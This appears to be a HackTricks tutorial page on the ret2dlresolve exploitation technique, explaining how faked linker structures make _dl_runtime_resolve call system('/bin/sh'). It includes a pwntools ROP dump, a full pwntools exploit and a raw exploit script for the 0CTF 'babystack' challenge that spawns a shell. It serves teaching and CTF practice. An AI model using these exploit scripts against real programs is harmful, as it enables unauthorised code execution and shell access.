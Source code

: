# Ret2dlresolve

{{#include ../../banners/hacktricks-training.md}}

## Basic Information

As explained in the page about [**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md) and [**Relro**](../common-binary-protections-and-bypasses/relro.md), binaries without Full Relro will resolve symbols (like addresses to external libraries) the first time they are used. This resolution occurs calling the function **`_dl_runtime_resolve`**.

The **`_dl_runtime_resolve`** function takes from the stack references to some structures it needs in order to **resolve** the specified symbol.

Therefore, it's possible to **fake all these structures** to make the dynamic linked resolving the requested symbol (like **`system`** function) and call it with a configured parameter (e.g. **`system('/bin/sh')`**).

Usually, all these structures are faked by making an **initial ROP chain that calls `read`** over a writable memory, then the **structures** and the string **`'/bin/sh'`** are passed so they are stored by read in a known location, and then the ROP chain continues by calling **`_dl_runtime_resolve`** , having it **resolve the address of `system`** in the fake structures and **calling this address** with the address to `$'/bin/sh'`.

> [!TIP]
> This technique is useful specially if there aren't syscall gadgets (to use techniques such as [**ret2syscall**](rop-syscall-execv/) or [SROP](srop-sigreturn-oriented-programming/)) and there are't ways to leak libc addresses.

Chek this video for a nice explanation about this technique in the second half of the video:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

Or check these pages for a step-by-step explanation:

- [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/ret2dlresolve#how-it-works](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/ret2dlresolve#how-it-works)
- [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures)

## Attack Summary

1. Write fake estructures in some place
2. Set the first argument of system (`$rdi = &'/bin/sh'`)
3. Set on the stack the addresses to the structures to call **`_dl_runtime_resolve`**
4. **Call** `_dl_runtime_resolve`
5. **`system`** will be resolved and called with `'/bin/sh'` as argument

From the [**pwntools documentation**](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html), this is how a **`ret2dlresolve`** attack look like:

```python
context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('amd64'))
>>> rop = ROP(elf)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> print(rop.dump())
0x0000:         0x400593 pop rdi; ret
0x0008:              0x0 [arg0] rdi = 0
0x0010:         0x400591 pop rsi; pop r15; ret
0x0018:         0x601e00 [arg1] rsi = 6299136
0x0020:      b'iaaajaaa' <pad r15>
0x0028:         0x4003f0 read
0x0030:         0x400593 pop rdi; ret
0x0038:         0x601e48 [arg0] rdi = 6299208
0x0040:         0x4003e0 [plt_init] system
0x0048:          0x15670 [dlresolve index]
```

## Example

### Pure Pwntools

You can find an [**example of this technique here**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **containing a very good explanation of the final ROP chain**, but here is the final exploit used:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```

### Raw

```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html
# This exploit is based off of: https://github.com/sajjadium/ctf-writeups/tree/master/0CTFQuals/2018/babystack

from pwn import *

target = process('./babystack')
#gdb.attach(target)

elf = ELF('babystack')

# Establish starts of various sections
bss = 0x804a020

dynstr = 0x804822c

dynsym = 0x80481cc

relplt = 0x80482b0

# Establish two functions

scanInput = p32(0x804843b)
resolve = p32(0x80482f0) #dlresolve address

# Establish size of second payload

payload1_size = 43

# Our first scan
# This will call read to scan in our fake entries into the plt
# Then return back to scanInput to re-exploit the bug

payload0 = ""

payload0 += "0"*44                        # Filler from start of input to return address
payload0 += p32(elf.symbols['read'])    # Return read
payload0 += scanInput                    # After the read call, return to scan input
payload0 += p32(0)                        # Read via stdin
payload0 += p32(bss)                    # Scan into the start of the bss
payload0 += p32(payload1_size)            # How much data to scan in

target.send(payload0)

# Our second scan
# This will be scanned into the start of the bss
# It will contain the fake entries for our ret_2_dl_resolve attack

# Calculate the r_info value
# It will provide an index to our dynsym entry
dynsym_offset = ((bss + 0xc) - dynsym) / 0x10
r_info = (dynsym_offset << 8) | 0x7

# Calculate the offset from the start of dynstr section to our dynstr entry
dynstr_index = (bss + 28) - dynstr

paylaod1 = ""

# Our .rel.plt entry
paylaod1 += p32(elf.got['alarm'])
paylaod1 += p32(r_info)

# Empty
paylaod1 += p32(0x0)

# Our dynsm entry
paylaod1 += p32(dynstr_index)
paylaod1 += p32(0xde)*3

# Our dynstr entry
paylaod1 += "system\x00"

# Store "/bin/sh" here so we can have a pointer ot it
paylaod1 += "/bin/sh\x00"

target.send(paylaod1)

# Our third scan, which will execute the ret_2_dl_resolve
# This will just call 0x80482f0, which is responsible for calling the functions for resolving
# We will pass it the `.rel.plt` index for our fake entry
# As well as the arguments for system

# Calculate address of "/bin/sh"
binsh_bss_address = bss + 35

# Calculate the .rel.plt offset
ret_plt_offset = bss - relplt


paylaod2 = ""

paylaod2 += "0"*44
paylaod2 += resolve                 # 0x80482f0
paylaod2 += p32(ret_plt_offset)        # .rel.plt offset
paylaod2 += p32(0xdeadbeef)            # The next return address after 0x80482f0, really doesn't matter for us
paylaod2 += p32(binsh_bss_address)    # Our argument, address of "/bin/sh"

target.send(paylaod2)

# Enjoy the shell!
target.interactive()
```

## Other Examples & References

- [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
- [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)
- [https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html](https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html)
  - 32bit, no relro, no canary, nx, no pie, basic small buffer overflow and return. To exploit it the bof is used to call `read` again with a `.bss` section and a bigger size, to store in there the `dlresolve` fake tables to load `system`, return to main and re-abuse the initial bof to call dlresolve and then `system('/bin/sh')`.

{{#include ../../banners/hacktricks-training.md}}
